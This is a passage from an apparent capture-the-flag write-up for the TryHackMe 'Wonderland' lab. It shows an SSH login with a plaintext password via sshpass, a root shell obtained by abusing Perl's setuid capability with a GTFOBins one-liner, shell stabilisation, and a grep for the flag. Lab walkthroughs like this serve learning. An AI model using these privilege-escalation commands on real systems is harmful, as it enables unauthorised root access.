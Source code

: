 Test the password with ssh

```bash
sshpass -p WhyIsARavenLikeAWritingDesk? ssh -o "StrictHostKeyChecking no" hatter@10.10.44.156
```

```bash
hatter@wonderland:~$ 
```


## From user Hatter to Root

They gave me the user password, this will be a huge hint

```bash
hatter@wonderland:/home$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

> https://gtfobins.github.io/gtfobins/perl/#capabilities

```bash
hatter@wonderland:/home$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

Stabilize Shell

```bash

# script /dev/null -c bash
Script started, file is /dev/null
root@wonderland:/home# 
```


## Find Flags


#### User Flag

```bash

# cd /home

# ls -la
total 24
drwxr-xr-x  6 root      root      4096 May 25  2020 .
drwxr-xr-x 23 root      root      4096 May 25  2020 ..
drwxr-xr-x  5 alice     alice     4096 Jul 25 14:48 alice
drwxr-x---  6 hatter    hatter    4096 Jul 25 15:02 hatter
drwxr-x---  2 rabbit    rabbit    4096 May 25  2020 rabbit
drwxr-x---  6 tryhackme tryhackme 4096 May 25  2020 tryhackme

# grep -Rin "thm{.*}"
alice/root.txt:1:thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```
